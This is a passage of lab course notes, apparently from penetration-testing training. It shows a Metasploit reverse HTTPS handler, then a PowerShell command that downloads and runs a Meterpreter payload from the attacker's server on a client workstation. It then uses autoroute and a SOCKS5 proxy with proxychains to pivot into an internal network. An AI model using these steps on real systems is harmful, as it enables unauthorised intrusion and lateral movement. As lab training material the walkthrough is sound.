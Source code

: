 ```
msf6 exploit(multi/handler) > run -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Started HTTPS reverse handler on https://192.168.119.5:443
```

Next, we can download and execute **met.exe** on CLIENTWK1
```
PS C:\Users\marcus> iwr -uri http://192.168.119.5:8000/met.exe -Outfile met.exe

PS C:\Users\marcus> .\met.exe
```

In Metasploit, a new session should appear:
```
[*] Meterpreter session 1 opened (192.168.119.5:443 -> 192.168.50.242:64234) at 2022-10-11 07:05:22 -0400
```

Once session 1 is opened, we can use **multi/manage/autoroute** and **auxiliary/server/socks_proxy** to create a SOCKS5 proxy to access the internal network from our Kali box as we learned in the "The Metasploit Framework" Module
```
msf6 exploit(multi/handler) > use multi/manage/autoroute

msf6 post(multi/manage/autoroute) > set session 1
session => 1

msf6 post(multi/manage/autoroute) > run
[!] SESSION may not be compatible with this module:
[!]  * incompatible session platform: windows
[*] Running module against CLIENTWK1
[*] Searching for subnets to autoroute.
[+] Route added to subnet 172.16.6.0/255.255.255.0 from host's routing table.
[*] Post module execution completed

msf6 post(multi/manage/autoroute) > use auxiliary/server/socks_proxy

msf6 auxiliary(server/socks_proxy) > set SRVHOST 127.0.0.1
SRVHOST => 127.0.0.1

msf6 auxiliary(server/socks_proxy) > set VERSION 5
VERSION => 5

msf6 auxiliary(server/socks_proxy) > run -j
[*] Auxiliary module running as background job 2.
```

The SOCKS5 proxy is now active and we can use _proxychains_ to access the internal network
+ Let's confirm that **/etc/proxychains4.conf** still contains the necessary settings from previous Modules
+ Meaning, only the SOCKS5 entry from the following listing should be active
```
kali@kali:~/beyond$ cat /etc/proxychains4.conf
...
socks5  127.0.0.1 1080
```
